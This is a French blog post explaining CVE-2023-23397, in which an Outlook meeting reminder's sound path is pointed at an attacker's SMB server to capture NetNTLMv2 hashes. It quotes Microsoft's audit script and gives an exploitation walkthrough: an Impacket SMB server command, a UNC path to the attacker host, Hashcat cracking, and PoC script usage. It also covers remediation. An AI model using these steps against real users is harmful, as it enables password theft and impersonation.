 # CVE-2023-23397 - La réunion Outlook qui exfiltre votre mot de passe.


# ⏰ Le rappel de réunion qui vous veut du mal

## Découverte

Le 14 mars 2023, la société `MdSec` publiait [un article](https://www.mdsec.co.uk/2023/03/exploiting-cve-2023-23397-microsoft-outlook-elevation-of-privilege-vulnerability/) traitant d'une nouvelle vulnérabilité corrigée dans la dernière mise à jour proposée par Microsoft.

La vulnérabilité était décrite de la façon suivante : 

{{< admonition quote "Patch KB5005413" >}}
Microsoft Office Outlook contains a privilege escalation vulnerability that allows for a NTLM Relay attack against another service to authenticate as the user.
{{< /admonition >}}

L'analyse d'un [script](https://github.com/microsoft/CSS-Exchange/blob/a4c096e8b6e6eddeba2f42910f165681ed64adf7/docs/Security/CVE-2023-23397.md) d'analyse fournit par Microsoft permet d'obtenir quelques indices sur l'exploitation de cette vulnérabilité.

## Détails techniques

Le script indique certains élements :

```powershell
<#
.SYNOPSIS
    This script audits mails, calendar and task items and check if PidLidReminderFileParameter property is populated or not.
```

```powershell
$searchFilterPidLidReminderFileParameterExists = New-Object Microsoft.Exchange.WebServices.Data.SearchFilter+Exists($mailInfo["PidLidReminderFileParameter"])
$searchFilterCollection.Add($searchFilterPidLidReminderFileParameterExists)
```

```powershell
if (-not $item.RemoveExtendedProperty($mailInfo["PidLidReminderFileParameter"])) {
    Write-Host ("Property already cleared on entry number: $entryCount, Line number: $($entryCount + 1)") -ForegroundColor Yellow
    $invalidEntries.Add($entryCount)
    continue
}
```

Le script recherche les emails contenant l'attribut `PidLidReminderFileParameter`. Ce paramètre permet de contrôler la ressource jouée lors du rappel d'une réunion.

Il est donc possible de conclure :

- Outlook souffre d'un **manque de contrôle sur la saisie de l'utilisateur** qui permet de configurer le son d'un rappel de réunion et de rendez-vous. 
- L'attaquant est effectuable sans aucune manipulation de la part de l'utilisateur (vulnérabilité de type "zero click").
- L'attaquant est capable de forcer une victime à établir une connexion avec son serveur afin de dérober son **condensat NetNTLM**.

Un attaquant exploitant cette vulnérabilité récupère un condensé NetNTLMv2 basé sur le mot de passe de l'utilisateur piégé via une requête SMB. La requête est déclenchée dès que le courrier arrive dans la boîte de réception.

## Exploitation

### Pas à pas

Pour exploiter cette faiblesse il est nécessaire d'agir en plusieurs étapes.

Dans un premier temps, il faut ouvrir un serveur SMB afin de réceptionner le condensat NetNTLM tansmis par la victime (par exemple avec Impacket comme ci-dessous).

```bash
smbserver.py -smb2support EXEGOL .
```

![Serveur SMB](/images/cve-outlook/2023-09-12-17-23-49.png)

Une fois que le serveur est configuré, il faut configuré la réunion. Pour cela, il faut faire pointer le rappel de la réunion vers le serveur de l'attaquant. Par exemple : `\\10.10.10.10\EXEGOL\` pour s'adapter à la commande précédente.

![](/images/cve-outlook/2023-09-12-17-25-33.png)

Le rendez-vous positionné, son arrivée dans la boite mail de la victime déclenche l'envoi d'un condensat NetNTLMv2 vers le serveur de l'attaquant.

![](/images/cve-outlook/2023-09-12-17-27-15.png)

Ce condensat a été créée à partir du mot de passe de la victime. Une attaque par force brute (ci-dessous avec `Hashcat`) à l'aide d'une liste de mot de passe adéquat permet de retrouver le mot de passe exfiltré.

![](/images/cve-outlook/2023-09-12-17-29-19.png)


### PoC final

Le PoC final est réalisable facilement.

![](/images/cve-outlook/poc.gif)


## Automatisation

Ce type d'exploit est facilement automatisable. Un PoC est disponible sur le GitHub de Trackflaw : https://github.com/Trackflaw/CVE-2023-23397

Ce PoC agit en plusieurs étapes :

1. Il créé un fichier `.msg` pointant vers le serveur de l'attaquant.
2. Ce fichier de réunion est mis en pièce jointe d'un email.
3. L'email est transmis à la victime.

Utilisation du PoC

```python
python CVE-2023-23397.py

usage: CVE-2023-23397.py [-h] -p PATH
CVE-2023-23397.py: error: the following arguments are required: -p/--path

python CVE-2023-23397.py --path '\\yourip\'
```

## Risques et remédiations

Les risques pour ce type de vulnérabilité sont nombreux. Un attaquant est en mesure de réaliser un certains nombre d'actions malveillantes :

- Retrouver le mot de passe de l'utilisateur.
- Transmettre le condensat afin de s'authentifier à la place de l'utilisateur.
- Accéder à des ressources réseaux.
- Usurper des identités.
- Compromettre des serveurs et des stations de travail.
- Etc

Afin de se protéger contre cette vulnérabilité, Microsoft a publié un correctif disponible depuis plusieurs jours avant la publication du premier PoC officiel.

## Vidéo

Enfin, une vidéo plus détaillée est disponible sur la chaine YouTube de Trackflaw.

{{< youtube 6bhJPwFgs8Q >}}
